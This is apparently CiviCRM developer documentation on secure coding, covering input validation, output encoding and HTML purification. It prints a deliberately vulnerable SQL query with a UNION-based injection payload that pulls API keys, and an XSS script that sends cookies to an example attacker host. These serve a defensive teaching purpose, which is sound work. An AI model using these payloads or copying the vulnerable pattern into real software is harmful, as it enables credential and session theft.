

# Secure Coding

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.



### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods {:#sanitization}

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format. This works well for data of known (and simple) types, but can be much more difficult (and less effective) when used for complex data types.

Validation is very important for data *inputs*. Likewise, it's a good idea to use it for *outputs*, too. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.

By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand the difference between inputs and outputs, as well as the different sanitization techniques, the question arises: *at what point in my code should I sanitize? Input, or output?*

### In an ideal world {:#ideal}

Within the larger community of developers (outside of CiviCRM), the current [best-practices say](https://security.stackexchange.com/a/95330/32455) that developer should do the following

* For inputs:
    * **Validate data inputs** as strictly as possible.
* For outputs:
    * *Also* **validate data outputs** as strictly as possible (to provide some redundant protection).
    * **Encode data outputs** whenever possible (which is most of the time).
    * Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

!!! failure "In a misguided world"

    A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `&quot;Foo Bar&quot; &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### CiviCRM's current strategy {:#strategy}

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode the HTML output. In other places, (e.g. in SQL queries) CiviCRM encodes outputs. In 2012, developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security.

CiviCRM's strategy is as follows:

* Inputs:
    1. Validate inputs when possible
    1. For non-rich text, [partially encode inputs](inputs.md#input-encoding)
    1. For rich text, [purify inputs](inputs.md#input-purification)
* Outputs:
    1. HTML:
        * Do *not* perform HTML encoding for [data between tags](outputs.md#between-tags)
        * *Do* perform HTML encoding for [data within attributes](outputs.md#in-attributes)
    1. SQL: [validate and encode](outputs.md#sql)
    1. Shell: [validate and encode](outputs.md#shell)


